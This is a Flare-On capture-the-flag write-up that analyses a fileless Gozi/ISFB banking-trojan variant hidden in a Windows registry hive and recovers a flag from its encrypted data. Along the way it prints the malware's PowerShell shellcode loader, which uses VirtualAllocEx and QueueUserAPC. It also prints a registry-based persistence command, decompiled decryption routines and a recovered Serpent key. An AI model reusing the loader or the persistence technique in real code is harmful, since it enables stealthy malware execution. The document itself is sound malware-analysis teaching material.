# 11 - rabbithole

**Time spent:** Around a week and a half

**Tools used:** Registry Explorer by Eric Zimmerman, HxD, Ghidra, x64dbg, Python, Painkillers, ISFB parser by Hasherezade, ISFB_Tools by 0ver-Fl0w, more painkillers

Challenge 11 is the final challenge of the series this year, and is very close to a real world scenario. I think the note that we are given is a very good introduction of the challenge itself:

```
One of our endpoints was infected with a very dangerous, yet unknown malware
strain that operates in a fileless manner. The malware is - without doubt - an
APT that is the ingenious work of the Cyber Army of the Republic of Kazohinia.

One of our experts said that it looks like they took an existing banking
malware family, and modified it in a way that it can be used to collect and
exfiltrate files from the hard drive.

The malware started destroying the disk, but our forensic investigators were
able to salvage ones of the files. Your task is to find out as much as you can
about the behavior of this malware, and try to find out what was the data that
it tried to steal before it started wiping all evidence from the computer.

Good luck!
```

The file we are given is called `NTUSER.dat`. Not an `*.exe`, `*.dll`, `*.sys` or any other kind of executable file. Just a plain `*.dat` file.

Given the title of the challenge, and me having very little experience in digital forensics, this promised to be a fun (and painful) ride.


## What is NTUSER.dat and how to read it?

A quick search on the web shows that the `NTUSER.dat` file is a file that contains one of the Windows Registry hives. 

Let's talk first a bit what the Windows Registry is. The Registry on Windows is a collection of databases. Windows uses the registry to store all kinds of configuration settings for almost every piece of software that it runs.



Each database in this collection is called a registry hive, and a typical computer running Windows will have at least 5 hives, as shown in the screnshot above. `NTUSER.dat` happens to be the `HKEY_CURRENT_USER` hive. It stores settings that are specific to the current user that is currently logged into Windows. You can think of mundane settings like the path to the background image of your desktop or personal settings of your internet browser, but it also contains really specific things like the view options of every folder that you have opened at least once, or the paths to the programs that are started upon logging into your Windows with your user account. 

There exists various tools to open registry hives. The one that I used is called Registry Explorer, which can be downloaded from [Eric Zimmerman's website](https://ericzimmerman.github.io/#!index.md). It is a fantastic free tool that provides a lot of features, many more than normal `regedit` would ever do. This includes advanced searches and rich interpretations of certain registry keys and values. Sometimes it is even able to partially recover deleted entries from the hive.



In short, if you can get a copy of someone's `NTUSER.dat` file, you can infer a lot about how someone uses his computer, provided that you know what to look for...


## Finding our target

Let's get to know the user of the computer a bit. As said before, the `NTUSER.dat` contains all per-user settings that Windows uses. One of these settings is called Shellbags. Have you ever changed the view options of a folder in Windows Explorer from Large Icons to Small Icons or Details? And if so, did you notice that Windows restores this preference upon revisiting the very same folder? 


These kinds of settings are stored in what is known as Shellbags which are put in the `SOFTWARE\Microsoft\Windows\Shell\Bags` key. Now why would we be interested in the view options of someone's folders? We are not really interested in the view options themselves, but more so in the other information that is stored next to it. It so happens that Shellbags can give you a very good indication of what kind of files the user had stored on their computer. There exists a shellbag for every directory that the user has changed the viewing options for, and each shellbag includes the names of the files stored in this directory. Even though we might not get the actual contents of a files, just knowing of the existence of a particular file is very valuable sometimes. And this case is no exception:



We now know that we should look for a file called `flag.txt` stored on the Desktop.


## Finding the malware

You might be wondering, how does a database of settings give us the contents of a flag.txt or a malicious binary to analyse in the first place? Registry Explorer might be all cool and dandy, but settings are just settings, it is not as if it is a place where you would expect the actual contents of files executable code. Maybe we could find a file path somewhere to the malware, but not the malware itself right?

I worked under the following assumption: If there exists a key or value in this hive dump that contains the malware, it must be stored in some form of executable format, which means it should look significantly different from other normal registry values. In particular, it must be a binary blob (either stored directly as a binary stream, or encoded using something like base64) that is a lot larger than a typical key-value pair.

Registry Explorer has a built-in feature for this. If we try this out, we immediately see a weird looking keys and values:



Timerpro? What is timerpro? The values are starting to look very suspicious:



The value contains [a powershell script](artifacts/timerpro.d.ps1) with a very large chunk of base64 encoded data, which decodes itself and then runs the following [embedded script](artifacts/timerpro.d.loader.ps1):

```ps
$cqltd="
[DllImport(`"kernel32`")]`npublic static extern IntPtr GetCurrentThreadId();`n
[DllImport(`"kernel32`")]`npublic static extern IntPtr OpenThread(uint nopeyllax,uint itqxlvpc,IntPtr weo);`n
[DllImport(`"kernel32`")]`npublic static extern uint QueueUserAPC(IntPtr lxqi,IntPtr qlr,IntPtr tgomwjla);`n
[DllImport(`"kernel32`")]`npublic static extern void SleepEx(uint wnhtiygvc,uint igyv);";

$tselcfxhwo=Add-Type -memberDefinition $cqltd -Name 'alw' -namespace eluedve -passthru;

$dryjmnpqj="ffcx";

$nayw="
[DllImport(`"kernel32`")]`npublic static extern IntPtr GetCurrentProcess();`n
[DllImport(`"kernel32`")]`npublic static extern IntPtr VirtualAllocEx(IntPtr wasmhqfy,IntPtr htdgqhgpwai,uint uxn,uint mepgcpdbpc,uint xdjp);";

$ywqphsrw=Add-Type -memberDefinition $nayw -Name 'pqnvohlggf' -namespace rmb -passthru;

$jky="epnc";

$kwhk=$tselcfxhwo::OpenThread(16,0,$tselcfxhwo::GetCurrentThreadId());
if($yhibbqw=$ywqphsrw::VirtualAllocEx($ywqphsrw::GetCurrentProcess(),0,$rpl.Length,12288,64))
{
 [System.Runtime.InteropServices.Marshal]::Copy($rpl,0,$yhibbqw,$rpl.length);
 if($tselcfxhwo::QueueUserAPC($yhibbqw,$kwhk,$yhibbqw))
 {
  $tselcfxhwo::SleepEx(5,3);
 }
}
```

This is a common code injection trick that injects [code](https://github.com/Washi1337/ctf-writeups/blob/master/writeups/flare-on/2020/11/artifacts/timerpro.d.decoded.bin) in the current process (Powershell), and runs it using `QueueUserAPC`. This is starting to look very suspicious. To put the nails in the coffin, I decided to check in the registry for any references to this Timerpro to be absolutely sure this was the malware that was ran on the computer. We find this key in one of the startup scripts of the user:



The base64 decodes to the unicode string:

```ps
iex (gp 'HKCU:\SOFTWARE\Timerpro').D
```

... which indeed executes whatever is stored in the suspicious registry value. We now know for sure that this is the malware that was executed!


## Restoring the first loader

Looking into this binary using a hex editor shows that it's not a typical PE file. It seems the MZ header was removed, but some of the headers seem to be somewhat present:



We know from the `QueueUserAPC` call in the Powershell script that the program starts at offset 0. Opening this up in Ghidra reveals that the first instruction is a jump to a bootstrapper code starting at offset `0x000099fc`.  The code starts out by using our good friends the PEB and TEB to resolve some imports, and eventually calls the real entrypoint at offset `0x00009d1c`.

```c
undefined8 FUN_000099fc(ulonglong param_1)
{
    /* ... */
    
    uVar8 = *(**(*(*(*(in_GS_OFFSET + 0x30) + 0x60) + 0x18) + 0x10) + 0x30) & 0xfffffffffffff000;
    rva = *(*(uVar8 + 0x3c) + 0x88 + uVar8);

    /* ... */

    nt_headers = *(base_ptr + 0x3c) + base_ptr;
    rva = (nt_headers->OptionalHeader).DataDirectory[1].VirtualAddress;
    if (rva != 0) {
        /* ... Resolve import addresses ... */
    }

    rva = (nt_headers->OptionalHeader).AddressOfEntryPoint;
    uVar6 = (nt_headers->OptionalHeader).DataDirectory[5].VirtualAddress;
    if (uVar6 != 0) {
        /* ... Apply base relocations ... */        
    }

    // Call entrypoint.
    iVar12 = (*(rva + base_ptr))(base_ptr,1,*&(nt_headers->FileHeader).PointerToSymbolTable);

    /* ... */
}
```

After obtaining the entrypoint address and fixing up the headers to make it a somewhat normal looking PE (a copy of the new file can be found [here](https://github.com/Washi1337/ctf-writeups/blob/master/writeups/flare-on/2020/11/artifacts/timerpro.d.fixedheaders.bin)) we can finally start analysing the malware in Ghidra.


## Analysing the payload

Following the entrypoint of the dll, we find our first function to analyse:

```c
ulonglong OnDllAttach(longlong hinstDll,uint *lpReserved)
{
    /* ... */
    
    // Allocate private heap.
    APP_HEAP = HeapCreate(0,0x400000,0);
    if (APP_HEAP != 0x0) {

        // Decrypt one of the sections.
        result = GetSectionContainingVA(hinstDll,&DAT_180013080,&section_rva,section_size,section_hash);
        uVar3 = result & 0xffffffff;
        if (result == 0) {
            section_va = (section_rva & 0xffffffff) + hinstDll;
            actualSize = 0x80013080 - section_va;
            if (section_size[0] < actualSize + 0x24) {
                uVar3 = 0x57;
            }
            else {
                uVar3 = DecryptSection(section_va,section_size[0],section_hash[0],&DAT_180013000,&DAT_180011570, actualSize);
                uVar3 = uVar3 & 0xffffffff;
            }
        }
        if (uVar3 != 0) goto LAB_180005420;

        // Initialize app context and other global variables.
        result = InitializeGlobals(hinstDll);
        uVar3 = result & 0xffffffff;
        if (result != 0) goto LAB_180005420;

        // Generate new mutex name.
        seed = APP_CONTEXT->unknown1 + APP_CONTEXT->unknown2;
        lpName = GenGuidName(&seed,0x0,0x0,1);
        if (lpName != 0x0) {
            // Create mutex.
            pvVar2 = CreateMutexW(0x0,1,lpName);
            APP_CONTEXT->Mutex = pvVar2;
            DVar1 = GetLastError();
            uVar3 = DVar1;
            HeapFree(APP_HEAP,0,lpName);
            if (APP_CONTEXT->Mutex != 0x0) {
                /* ... */
            }
            if (uVar3 == 0) {
                // Run actual program.
                result = Main(hinstDll,lpReserved);
                uVar3 = result & 0xffffffff;
                if (result == 0) {
                    return uVar3;
                }
            }
            goto LAB_180005420;
        }
    }
    uVar3 = 8;
LAB_180005420:
    CleanUpAndDestroyHeap();
    return uVar3;
}
```

The program starts off by decrypting one of its sections and initializing some global variables. Then it creates a new mutex, and finally runs the main program. Let's dive into the main program:

```c
ulonglong Main(longlong param_1,uint *param_2)
{
    /* ... */

    // Get or create root registry key.
    uVar2 = NtOpenOrCreateKey(appContext->RootKeyName,0xc0000000,0x0,&appContext->RootRegKey);

    /* ... */

    // Get or create two sub keys.
    if (iVar3 == 0) {
        name = GetString(0xf0f,1);
        if (name != 0x0) {
            uVar2 = NtOpenOrCreateKey(name,0xc0000000,APP_CONTEXT->RootRegKey,&APP_CONTEXT->SubKey1);

            /* ... */
        }
        
        name = GetString(0x1010,1);
        uVar2 = NtOpenOrCreateKey(name,0xc0000000,APP_CONTEXT->RootRegKey,&APP_CONTEXT->SubKey2);
        
        /* ... */
    }

    /* ... */
    
    if (uVar10 == 0) {
        // Read and decrypt a specific registry value.
        lpMem_00 = GetString(DAT_180013000 ^ 0x3c17294e,5);
        if (lpMem_00 != 0x0) {
            uVar10 = ReadAndDecryptRegValue(APP_CONTEXT->SubKey1,lpMem_00,subkeyValues,subkeyValues + 2,0);
            if (uVar10 != 0) {
                subkeyValues[0] = 0x0;
                subkeyValues[2] = subkeyValues[2] & 0xffffffff00000000;
            }
            uVar10 = ReadAndDecryptRegValue(APP_CONTEXT->SubKey2,lpMem_00,subkeyValues + 1,subkeyValues + 0x14,0);
            if (uVar10 != 0) {
                subkeyValues[1] = 0x0;
                subkeyValues[2] = subkeyValues[2] & 0xffffffff;
            }
            HeapFree(APP_HEAP,0,lpMem_00);
        }

        /* ... do some complicated loading and run entrypoint ... */
    }

    /* ... */
}
```

In this function, we see that it initializes a root registry handle (possibly Timerpro?), as well as two sub key handles. But the strings indicating which sub keys are accessed are obfuscated. They are replaced by a function that I called `GetString` (at address `0x18000d21c`). In fact, this function is called almost everywhere in the binary (and is going to prove to be very important later on as well). Let's find out how to decrypt these strings so that we can annotate the code.


## Decrypting strings

Analysing the function in more depth reveals that this function generates a string based on some kind of seed and a word list. It picks words at random using a xorshift pseudo random number generator (which can be identified by the constant `2545F4914F6CDD1D` in the code) that is seeded by the first argument of the `GetString` function, and another unknown seed:

```c
void GetString(uint param_1,uint param_2)
{
    if (APP_CONTEXT->WordList != 0x0) {
        GenerateStringFromTable(APP_CONTEXT->WordList,param_1,param_2);
    }
    return;
}

wchar_t * GenerateStringFromTable(WordsTable *wordList,uint seed,uint capitalization)
{
    /* ... */

    // Pick random words.
    puVar5 = local_68;
    ppcVar6 = local_58;
    do {
        uVar4 = uVar7 + seed + wordList->Seed;
        uVar4 = uVar4 ^ uVar4 >> 0xc;
        uVar4 = uVar4 ^ uVar4 << 0x19;
        uVar2 = (uVar4 >> 0x1b ^ uVar4) * 0x2545f4914f6cdd1d;
        uVar4 = (uVar2 & 0xffff) % *&wordList->WordCount;
        if ((uVar2 >> 0x20 & 1) == 0) {
            uVar3 = *&wordList->Words[uVar4].Length;
        }
        else {
            uVar3 = 0 % (*&wordList->Words[uVar4].Length - 1) + 2;
        }
        if (puVar5 != 0x0) {
            *puVar5 = uVar3;
        }
        uVar3 = uVar8 + *puVar5;
        uVar8 = uVar3;
        uVar9 = uVar9 + 1;
        *ppcVar6 = wordList->Words[uVar4].Data;
        uVar7 = uVar7 + 2;
        puVar5 = puVar5 + 1;
        ppcVar6 = ppcVar6 + 1;
        seed = seed >> 8;
    } while ((seed != 0) && (uVar7 < 8));

    // Concat and capitalize.
    pwVar1 = HeapAlloc(APP_HEAP,0,uVar3 * 2 + 10);
    if (pwVar1 != 0x0) {
        uVar7 = 0;
        if (uVar9 != 0) {
            puVar5 = local_68;
            ppcVar6 = local_58;
            _Dest = pwVar1;
            do {
                uVar3 = *puVar5;
                mbstowcs(_Dest,*ppcVar6,uVar3);
                if ((capitalization >> (uVar7 & 0x1f) & 1) != 0) {
                    *_Dest = *_Dest + L'￠';
                }
                uVar7 = uVar7 + 1;
                ppcVar6 = ppcVar6 + 1;
                puVar5 = puVar5 + 1;
                _Dest = _Dest + uVar3;
            } while (uVar7 < uVar9);
        }
        pwVar1[uVar8] = L'\0';
    }
    return pwVar1;
}
```

If we cross reference on this unknown seed, we can see it is actually build up from the current user's SID (Security Identifier), which is a unique (and immutable) identifier for any user on Windows:

```c
// Obtain current process token.
iVar2 = NtOpenProcessToken(pMVar7->CurrentProcessHandle,8,local_res8);
if (iVar2 < 0) {
    result = RtlNtStatusToDosError();
}
else {
    result = GetTokenUser(&local_48,local_res8);
}
/* ...*/

// Compute checksum of SID.
pMVar7 = APP_CONTEXT;
iVar2 = 0;
*(&APP_CONTEXT->HashedUserSID + 4) = (&uStack76)[local_48.User.Sid._1_1_];
if (0 < local_48.User.Sid._1_1_ - 2) {
    puVar6 = &local_48.User.field_0xc;
    do {
        result = *puVar6;
        iVar2 = iVar2 + 1;
        puVar6 = puVar6 + 1;
        pMVar7->HashedUserSID = pMVar7->HashedUserSID + result;
    } while (iVar2 < local_48.User.Sid._1_1_ - 2);
}

// XOR with 0xedb88320edb88320
puVar6 = &pMVar7->HashedUserSID + 4;
*puVar6 = *puVar6 ^ 0xedb88320;
*&pMVar7->HashedUserSID = *&pMVar7->HashedUserSID ^ 0xedb88320;
```

To make our decryption script work, we therefore need to figure out the SID of the user that was running the malware. To do this, we go back to our trusted Registry Explorer. A SID has a very distinct pattern. For normal users, it always looks like the following:

```
S-1-5-21-XXXXXXXXXX-YYYYYYYYYY-ZZZZZZZZZZ-WWWW
```

We can use the Find feature of Registry Explorer again to find any instance of a string that looks like this:



Now let's find the second piece of the puzzle; the word list. Fortunately for us, the word list is static, and can easily be found by running the powershell script under x64dbg (set command line arguments), and then setting a breakpoint on this `GetString` function to read out the memory containing the words:



A full reimplementation of the string decrypter can be found in [this python script](scripts/string_decrypter.py). 


## Decrypting the modules in the registry

Let's continue our adventure. Going back to our main function, we see that it creates or reads values from either the `Languagetheme` (f0f) or `Columncurrent` (1010) subkey:

```sh
$ python scripts/string_decrypter.py f0f 1
Languagetheme
$ python scripts/string_decrypter.py 1010 1
Columncurrent
```

Then, it attempts to read a third value (index `DAT_180013000 ^ 0x3c17294e`). Let's find out which value this belongs to. Pressing F9 a couple of times until we get to the third `GetString` call reveals that it is looking up string `8576B0D0` (by extension this means the unknown constant `DAT_180013000` is equal to `B961999E`):

```sh
$ python scripts/string_decrypter.py 8576B0D0 5
WebsoftwareProcesstemplate
```

Great! This one exists in the subkeys:



Unfortunately the value is encrypted. Let's find out how this value is decrypted. Without really diving too deep into the cryptography that is happening, I decided to let the debugger do it for me instead. 

This proved to be a little bit more tricky than anticipated. First, I exported the registry keys from Registry Explorer and imported them into the virtual machine. Then, we can set a breakpoint right after the place where the hash of the SID is set (address `18000cb5c`). After that, we can  replace the hash of my SID with the hash of the original SID (replace the contents of the memory pointed by `rdx+78` with `fa7b30fb4e7b7055`), effectively tricking the malware I am the original user.



After that, we can set a second breakpoint on the actual decryption routine, and then dump the original contents. This way, we can decrypt not just `WebsoftwareProcesstemplate`, but all values stored in the sub keys! We can do this by repeatedly letting the program run the same decryption function over and over again, and changing the name of the value every time. Here's a video of letting the program decrypt the `WebsoftwareProcesstemplate` registry value:


Copies of all decrypted modules can be found in [this folder](https://github.com/Washi1337/ctf-writeups/blob/master/writeups/flare-on/2020/11/artifacts/modules).

If we have a look at the first module it decrypts with string index `8576B0D0` (which decoded to `WebsoftwareProcesstemplate`), we see what seems to be a weird custom file format:



What is the PX file format? Web searches about the PX file format doesn't immediately show us something useful. We could of course try to reverse engineer the entire parsing process of this file format, but this sounds like a very hard challenge. Can we somehow avoid this?


## Identifying the malware

I got reminded of the note that we were given. The malware seems to be based on a well-known banking trojan. Let's do some research, and see if we can find some base code or even existing tools that might help us out in our analysis.

Identifying code and matching it with existing samples can be a tough task, however what often works out for me is copying specific integer or string constants that you can find in the program, and pasting it into a web search engine. Search engines nowadays are powerful enough to let that bring you straight to the original source code or very useful references of the program.

I first tried a snippet of the long word list used to generate strings. Unfortunately this didn't yield any results. Then I tried pasting `WebsoftwareProcesstemplate`, but then was quickly reminded that it was based on the SID of the user, and would therefore not be present in any source code. However, the constant `8576B0D0` will be!



Bingo! Apparently the malware is part of the Gozi/ISFB/Ursnif family! Doing more research shows that this malware indeed. Especially the [article by Dr. Web](https://vms.drweb.com/virus/?i=16047509&lng=en) is very useful. It tells us that `8576B0D0` (and others) is not a random number, but rather the CRC32 of the original name of the binary. 


## Converting PX to PE files

Further research also brings us to [ISFB_parser](https://github.com/hasherezade/funky_malware_formats/tree/master/isfb_parser), which is a great program written by [Hasherezade](https://hasherezade.github.io/) that is able to convert this weird PX file format to normal PE file formats. Let's do just that:

```
isfb_parser.exe WebsoftwareProcesstemplate.bin WebsoftwareProcesstemplate.dll
```

For some binaries, this works completely flawlessly. For others, such as `WebsoftwareProcesstemplate`, we need to do some final fixups, as the headers are messed up:



Changing the `Machine` field to `AMD64`, and `Magic` to `PE64` in CFF Explorer fixes up the headers of those files completely. 


## Original source code

We also can find the original leaked source of the Gozi banking trojan [on GitHub](https://github.com/t3rabyt3-zz/Gozi). While we probably won't be able to exactly match the original code with the compiled binaries that we are working with right now, we can still use it as a reference point to help us identifying important functions (most notably, encryption routines will be very useful). It is a very interesting repository to go through, so definitely worth taking a look if you haven't already!


## Getting trolled

I starting looking into some of the files, and if you do that, you'll quickly find that a lot of the dlls are copies of a dll called `taunt.dll`. The only thing this dll does, is choosing a random string from a list, and showing it in a message box:



Here are the possible messages that you can get:
```
What are you up to? I've got my eye on you!
Did you really think this was going to work?
Please don't do that, you are hurting my feelings.
Come on, you don't think I can let you win this easily, do you?
Don't be a noob. You need to try a bit harder than this...
I am at a loss for words as to how you even made it this far in the challenges.
I see what you are doing, but that's not gonna work.
```

I must say after a lot of late hours of analysing and finally getting some progress with converting PX files to PE files, I was laughing my ass off when I saw these messages.


## Let the real detective work begin!

Even though this sounds perhaps discouraging, this is also the moment where we start to finally see some light at the end of the tunnel (or rabbithole for that matter). A good rule of thumb with the flare-on challenges that I found is: When you start seeing funny strings or hints to FLARE, it usually means you are on the right track. 

Furthermore, a quick peek into the modules stored in both subkeys `Columncurrent` and `Languagetheme` reveals that one sub key contains 32-bit modules, and the other the exact same modules, but compiled as 64-bit dlls instead. This already cuts in half the amount of files we need to analyse. Furthermore, there are a lot of copies of the `taunt.dll` file in there as well. Together with the information from the Dr. Web article that leaves us with only the following modules still to analyse:

| Value name                  | CRC        | Original name         |
|-----------------------------|------------|-----------------------|
| DatethrWorkscreen           | `7f23179C` | microsoftedgecp.dll   |
| PrintsolutSavetheme         | `309D98FF` | firefox.dll           |
| ProtocolmagicWordeskt       | `6BB59728` | mail.dll              |
| ThemespellNametheme         | `9EFF4536` | chrome.dll            |
| RowmapGuiprotocol           | `224C6C42` | explorer.dll          |
| ScreenserProtocolacces      | `5F92DAC2` | iexplore.dll          |
| SoftlogicMagiclink          | `E6954637` | browsers.dll          |
| WebmodeThemearchive         | `45A0FCD0` | netwrk.dll            |
| WebsoftwareProcesstemplate  | `8576B0D0` | bl.dll                |
| WordlibSystemser            | `D6306E08` | rt.dll                |

We can reduce this number of modules even further, because most of the code is not going to be relevant to us anyway. If you remember from the very beginning of this story, we are interested in finding traces of the code that read the `flag.txt` file on the Desktop. 

We also know from the Dr. Web article that `RowmapGuiprotocol` is going to be the main program of the malware, and that `WebmodeThemearchive`, `WebsoftwareProcesstemplate` and `WordlibSystemser` will be three important base libraries that the main program and the other modules are using.

Finally, we have a whole bunch of registry values in the `Timerpro` registry key that we have no idea yet what they are about. If one of the registry values contains the contents of the `flag.txt` (it pretty much has to be in there somewhere, encrypted or not), then the blob must be relatively large again, and not just a single number. Two registry values match this requirement: The `MAIN` value in the `Timerpro\WordTimer`, and `DiMap` in `Timerpro` itself. It would be a good idea to look for references to these values as well.


## Decrypting the .BSS sections

Before we can dive fully into the modules, we need to do some preparation work. If you open the modules in Ghidra, you will quickly notice that they all start up in a very similar fashion, very much akin to the original shellcode payload that was stored in the Powershell script. For example, the WebsoftwareProcesstemplate.dll starts off by exeucting the following code:

```c
/* ... */
    
APP_HEAP = HeapCreate(0,0x400000,0);
if (APP_HEAP != 0x0) {
    uVar2 = FindSectionByVA(param_1,0x80013080,&local_res18,local_res20,local_28);
    uVar4 = uVar2 & 0xffffffff;
    if (uVar2 == 0) {
        start_va = (local_res18 & 0xffffffff) + param_1;
        header_size = 0x80013080 - start_va;
        if (local_res20[0] < header_size + 0x24) {
            uVar4 = 0x57;
        }
        else {
            uVar4 = DecryptSection(start_va,local_res20[0],local_28[0],&CONST_0xB961999E,&DECRYPTED_BSS_RVA,
                                    header_size);
            uVar4 = uVar4 & 0xffffffff;
        }
    }

    /* ... rest of the program ... */
```

It finds the `.bss` section in the file, then calls `DecryptSection` on it. Following this function reveals that this function uses some form of an XOR decryption routine with some extra bit shifts to decrypt the section, using the PE timestamp as key. 

```c
void XorDecryptBuffer(uint *ptr,uint count,uint key,int skip_zero)
{
    uint current_word;
    uint last_word;
    ulonglong result;
    uint x;
    byte roll_count;
    
    x = 0;
    count = count >> 2;
    last_word = 0;
    while ((count != 0 &&
           ((((current_word = *ptr, skip_zero == 0 || (current_word != 0)) || (count < 2)) || (ptr[1] != 0))))) {
        roll_count = x << 2;
        result = xor3(current_word,last_word,key);
        x = x ^ 1;
        *ptr = result << (roll_count & 0x1f) | result >> 0x20 - (roll_count & 0x1f);
        ptr = ptr + 1;
        count = count - 1;
        last_word = current_word;
    }
    return;
}
```

Writing [a quick script in Python](https://github.com/Washi1337/ctf-writeups/blob/master/writeups/flare-on/2020/11/scripts/decrypt_bss.py) that reimplements this function helps us decrypting all bss sections of every module. Copies of them can be found in [the artifacts directory](https://github.com/Washi1337/ctf-writeups/blob/master/writeups/flare-on/2020/11/artifacts/modules).



We can now start annotating all the other encrypted strings in all binaries.


## Identifying export functions

To get a good understanding of the main module, I started by first identifying the export functions that the main module uses from other libraries. Instead of going though all functions all by one, I summarized them here in a list:

### Important exports of `8576B0D0` (`WebsoftwareProcesstemplate`):

| Ordinal  | Summary                                                                          |
|----------|----------------------------------------------------------------------------------|
| 2        | Return main app context object                                                   |
| 4-7      | PRNG code using Xorshift                                                         |
| 8        | Calculate CRC32                                                                  |
| 10-12    | `HeapAlloc`, `HeapFree`, `HeapReAlloc`                                           |
| 13-14    | Decompress using aPLib (from original Gozi source)                               |
| 15-16    | Read/Write registry value by name.                                               |
| 21       | Read registry value in subkey by string index                                    |
| 26       | `DecryptAndVerifySignature` (from original Gozi source)                          |
| 27       | Serpent decryption routine (`RC6EncryptDecryptBuffer` from original Gozi source) |
| 60       | Get string by index                                                              |
| 73       | `HeapAlloc` and zero memory                                                      |
| 75       | Decrypt section with `XorDecryptBuffer`                                          |
| 78-79    | Read/Write registry value from root key                                          |

### Important exports of `D6306E08` (`WordlibSystemser`):

| Ordinal  | Summary                                                   |
|----------|-----------------------------------------------------------|
| 70-71    | Add/Remove module to/from list                            |
| 72       | Dispatch command to modules                               |
| 73       | Read and interpret base configuration                     |
| 125-129  | ZIP API (pack, unpack, add files to archive etc.)         |
| 130-139  | Sockets (init, send, receive, etc.)    	               |
| 140-150  | File IO (file read, write, search etc.)                   |
 
### Important exports of `45A0FCD0` (`WebmodeThemearchive`):

| Ordinal  | Summary                                                   |
|----------|-----------------------------------------------------------|
| 11-12    | Send HTTP request to C2 server.                           |
| 78-79    | Forwards to 8576B0D0.dll::#78-#79                         |


## Tying it all together

Now that we have the building blocks, we can start fully analysing the main module `RowmapGuiprotocol` (`224C6C42`, explorer.dll). 

Since we know that the contents of `flag.txt` must be either in the `MAIN` or `DiMap` value, a good starting point would be to look for references to these names, combined with one of the exports that handle registry reads and writes. We don't really see any references to `DiMap`, but we can see traces of `"MAIN"` in the decrypted BSS section:



If we cross-reference on this string, we come across `FUN_180003880`.

```c
void FUN_180003880(undefined8 param_1,undefined4 *param_2)
{
    /* ... */

    uVar2 = 45A0FCD0.DLL::Ordinal_16();
    if ((uVar2 & 8) == 0) {
        // Read value 0xa0a (= "Timerversion").
        uVar2 = Ordinal_78(0xa0a,&local_res20,local_res18);
        if (uVar2 == 0) {
            /* ... */
        }

        // Send data to C2.
        iVar1 = 45A0FCD0.DLL::Ordinal_11(GLOBAL_PTR_2 ^ 0x8bd6287b,iVar3,1,0,0,0,&response_data,&response_size);
        if (iVar1 == 0) {

            // Calculate CRC32 of response.
            uVar2 = 8576B0D0.DLL::Ordinal_8(response_data,local_res18[0]);
            if (uVar2 != iVar3) {
                // Update MAIN value.
                uVar2 = FUN_1800075c0(&"Main" + BSS_RVA,response_data,response_size,uVar2);
                /* ... */
            }

            // HeapFree
            8576B0D0.DLL::Ordinal_11(local_res20);
        }
        else {
            if (iVar1 != 0x10d2) {
                45A0FCD0.DLL::Ordinal_21();
            }
        }
    }
    return;
}
```

Great, we now know that MAIN is updated every time a HTTP request is made to the C2 server! What about `DiMap` though? There is no trace of `DiMap` anywhere in any of the decrypted BSS sections, nor is it hardcoded as a string in the executable itself either. However, it does look like one of those random strings generated from that long word list. Let's find out which string index belongs to `DiMap` with [yet another Python script](https://github.com/Washi1337/ctf-writeups/blob/master/writeups/flare-on/2020/11/script/find_dimap.py) by plain and simple bruteforce:

```python
from string_decrypter import *

original_sid = "S-1-5-21-3823548243-3100178540-2044283163-1006"
decrypter = StringDecrypter(original_sid)

for i in range(0xff):
    idx = (i << 8) | i
    x = decrypter.get_string(idx, 3)
    if x == "DiMap":
        print(x, hex(idx))
```

This gives us the ID to look for:
```
DiMap 0x7f7f
```

But if we look for any hex code `7f7f` in the binary, it seems we cannot find anything!



Let's try to cross reference on 8576B0D0.dll::#79, which writes values to the registry by string index. We come across `FUN_180004BB3`.

```c
// FUN_180004BB3
undefined8 WriteDiMap(undefined8 param_1,undefined8 param_2,undefined8 param_3,longlong param_4)
{
    /* ... */
    
    Ordinal_79(uVar3 & 0xffff0000 | 0x7f7f,CONCAT71(uVar4 >> 8,3),buffer,bufferSize,*(uVar5 - 8));
    return *(uVar5 + 0x20);
}
```

Here we go! A quick side note: The reason it didn't find it using the memory search is because the assembly code didn't contain the value `7F7F` literally, but rather uses some weird assembly construct to build up the value `7F7F`, sneaky bastards!

```
...
180004bec b1 7f           MOV        CL,0x7f
180004bee 88 cd           MOV        CH,CL
180004bf0 e8 f7 cf        CALL       Ordinal_79
...
```

If we look into the call tree of this function, we find that it is called by our HTTP function!



If we look into `FUN_180001000`, we see some very interesting things happening right before this write call to the `DiMap` registry value:

```c
    /* ... */

    // RC6EncryptDecryptBuffer 
    iVar1 = 8576B0D0.DLL::Ordinal_27(param_3,param_4,pOutBuf,param_5 + 5,param_1->RC6Key,1);
    
    LOCK();
    param_1->LockCounter1 = param_1->LockCounter1 - 1;
    if (iVar1 == 0) {
        uVar8 = 0x77;
        *(param_5 + 0x2c) = 1;
        pvVar5 = Ordinal_10(0x77);
        if (pvVar5 != 0x0) {
            8576B0D0.DLL::Ordinal_7();

            // Write output of RC6 data into the "DiMap" value.
            uVar6 = WriteDiMap(uVar8,param_4,pOutBuf,param_5);
            /* ... */
```

Great, we know now it is also encrypted using the Serpent encryption scheme. We just need to find the encryption key. According to the Dr. Web article again, there is an encryption key stored in the base configuration of the malware. This base configuration is stored under the string index `D722AFCB`, which maps to the value `MonitornewWarningmap` in the registry. 

```
$ python string_decrypter.py d722afcb 5
MonitornewWarningmap
```

In [the decrypted contents](https://github.com/Washi1337/ctf-writeups/blob/master/writeups/flare-on/2020/11/artifacts/baseconfig.bin) (obtained in a similar way we found the decryptions of the modules), we see the host name of the C2 server, and the encryption key:



We now have everything we need to decrypt the `DiMap` value.

```python
from decrypt_bss import decrypt
from string_decrypter import compute_sid_hash
from malduck import serpent

data = bytearray(open("../artifacts/DiMap.bin", "rb").read())

sid = "S-1-5-21-3823548243-3100178540-2044283163-1006"
seed = compute_sid_hash(sid)
decrypt(data, 0, len(data), seed & 0xFFFFFFFF)

data = serpent.cbc.decrypt(b"GSPyrv3C79ZbR0k1", data)
open("../artifacts/DiMap_decrypted.bin", "wb").write(data)
```

... which reveals the flag:



```
r4d1x_m4l0rum_357_cup1d1745@flare-on.com
```

## Closing thoughts

I probably spent way too much time on this challenge. After the fact, I learnt there were so many write-ups about this malware, and how it uses the XOR + Serpent combination for encryption/decryption that I could have probably solved it with a lot of existing tools instead. I heard some people just solved it this way by just guessing that this would still be the case. I wish the FLARE team would have changed one or two things regarding the encryption algorithms that were used, since they were basically just a copy paste of the original. 

Nevertheless, I really enjoyed the process and I learnt a lot, and is probably in my top 3 challenges for this year. It is a proper final challenge for Flare-On, as it showcases a malware sample of what you could find in the real world. 
